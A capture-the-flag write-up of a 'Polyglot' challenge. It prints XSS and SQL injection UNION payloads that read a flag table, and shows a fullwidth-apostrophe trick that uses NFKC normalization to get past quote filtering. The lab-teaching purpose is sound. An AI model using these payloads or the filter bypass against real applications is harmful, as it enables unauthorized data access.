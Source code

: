 
## Polyglot

> Craft a single payload that solves multiple challenges at once. The more challenges you solve, and the shorter your payload, the better your score.

The score was calculated using this formula: `score = (number of challenges solved × 1000) − payload length`

A polyglot payload is a specially crafted input that is valid in multiple different contexts or interpreters, allowing it to bypass security filters or be executed in more than one way depending on how and where it is used.


### XSS 1 and XSS 2

Let's start with the easy task of merging the 2 XSS payloads, we can put them one after the other: `'></script><img src=x onerror=alert(flag)>`

### SQL 1 and SQL 2

Things starts to get tricky for the SQL injections because of the quote from the payload of SQLi #1.

```sql
9 union select flag,flag,0 from flag
' union select flag,null,null from flag
```

We can use a SQLite commment "--" to remove it when it is un-necessary: `9 union select flag,flag,0 from flag--' union select flag,null,null from flag`

```sql
-- SQL1
SELECT * FROM users WHERE username = '9 union select flag,flag,0 from flag--' union select flag,null,null from flag--'

-- SQL2
SELECT * FROM users WHERE age <9 union select flag,flag,0 from flag--' union select flag,null,null from flag--
```

But I discovered later that I needed the quote to escape the Bash context, fortunately the description of the challenge is giving us a big hint about NFKC normalization. In short, unicode characters will be transformed into equivalent character. 

| Character | Unicode | Name                      | Normalizes to     |
|-----------|---------|---------------------------|-------------------|
| ʼ         | U+02BC  | MODIFIER LETTER APOSTROPHE | ' (U+0027)        |
| ʹ         | U+02B9  | MODIFIER LETTER PRIME      | ' (U+0027)        |
| ＇        | U+FF07  | FULLWIDTH APOSTROPHE        | ' (U+0027) OK     |

The payload is looking the same but the quote has been substituted to "＇".

```SQL
9 union select flag,flag,0 from flag--＇ union select flag,null,null from flag--
```
